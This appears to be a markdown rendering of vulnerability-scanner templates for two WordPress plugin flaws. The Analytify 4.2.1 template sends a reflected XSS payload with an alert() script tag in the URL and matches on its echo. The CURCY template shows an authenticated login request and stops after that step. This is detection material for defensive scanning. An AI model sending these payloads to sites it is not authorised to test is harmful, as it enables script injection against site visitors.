 - WordPress Analytify 4.2.1 does not escape the current URL before outputting it back in a 404 page when the 404 tracking feature is enabled, leading to reflected cross-site scripting.

- severity - medium
- tags - wp,wordpress,analytify,wpscan,wp-plugin,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/aa404bb?a\</script>\<script>alert(/XSS/)\</script>

### Matchers

**Type - word**

- part - body
- words
  1. text/javascript">alert(/XSS/)\</script>
  2. wp-analytify
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 404

---

# WordPress CURCY - Multi Currency for WooCommerce \<2.1.18 - Cross-Site Scripting

## Description

- WordPress CURCY - Multi Currency for WooCommerce 2.1.18 does not escape some generated URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wp-plugin,xss,wp,wordpress,authenticated,curcy,wpscan

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
